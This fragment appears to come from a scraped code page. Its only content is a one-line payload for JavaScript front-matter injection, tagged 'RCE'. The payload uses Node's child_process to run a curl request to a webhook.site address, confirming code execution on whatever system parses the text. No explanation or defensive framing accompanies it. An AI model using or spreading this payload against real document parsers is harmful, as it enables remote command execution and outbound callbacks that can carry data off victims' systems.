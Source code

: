 "---js\n((require(\"child_process\")).execSync(\"curl https://webhook.site/17ce7f3f-4c35-487c-80a7-7715fdfa1cfb\"))\n---RCE;"
